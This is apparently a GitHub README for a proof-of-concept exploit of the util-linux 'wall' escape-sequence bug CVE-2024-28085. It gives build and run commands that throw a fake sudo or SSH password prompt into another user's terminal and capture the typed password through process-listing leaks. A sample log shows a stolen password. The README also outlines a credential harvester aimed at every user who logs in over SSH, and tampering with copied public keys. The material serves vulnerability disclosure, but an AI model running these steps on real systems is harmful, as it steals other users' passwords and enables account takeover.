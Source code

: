 # Wall-Escape (CVE-2024-28085)

The util-linux wall command does not filter escape sequences from 
command line arguments. The vulnerable code was introduced in commit
[cdd3cc7fa4](https://github.com/util-linux/util-linux/commit/cdd3cc7fa4cafde492039180bb47f27ab8422261) (2013). Every version since has been vulnerable. A full report
can be found [here](https://people.rit.edu/sjf5462/6831711781/wall_2_27_2024.txt). I
have nicknamed this bug "WallEscape".

This exploit code was successful in leaking passwords on Ubuntu 22.04 with default configurations. 

## Configure

Make sure the background color and username are set to appropriate values in
throw.c.

## Build and run

Attack setup
```
git clone https://github.com/skyler-ferrante/CVE-2024-28085.git
./build.sh
./spy > proc.log & ./watch "sudo systemctl start apache2"; ./watch "systemctl start apache2"; sleep .01; ./throw
```

I used `sudo systemctl start apache2` since it is short running without much output.
Make sure to kill spy after the exploit has run: `pkill spy`.

Then in another terminal
```
sudo su
sudo systemctl start apache2
```

It might not be necessary for the victim to call `su` depending on the system, and if accessing locally vs through ssh.

This should cause the fake sudo prompt to pop up in the victim terminal. Since
many systems leak commands that are not found, the victim password may show up in proc.log.

Example proc.log
```
sudo systemctl start apache2
systemctl start apache2
./throw
bash
/usr/bin/python3 /usr/lib/command-not-found -- Password123!
/usr/bin/snap advise-snap --format=json --command Password123!
```

# Note

Some people have misunderstood under what scenarios this could be used to attack another user. We do not need to attack sudo, we can attack anywhere the user inputs their password. On my system, after a user logs in using OpenSSH, the command `/usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new` gets run.

For leaking passwords from Openssh users, imagine running the following:

```
./watch "sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new"; sleep 1; ./throw
```

We can then send a "password incorrect" message after a user can correctly login through SSH. Sudo was just the command I choose to demo, but there are many possible targets. Its not hard to imagine an attacker setting up a credential harvester, to harvest the credentials of every user that logins using SSH. This is possible from even the most unprivileged users, such as www-data.

This vulnerability also gives attackers the ability to change the output of any command. Imagine we waited for the command `cat ~/.ssh/id_rsa.pub"`. An attacker could change what the user copies for their public key. In the style of attack, we do not need a leaking primitive for commands not found.
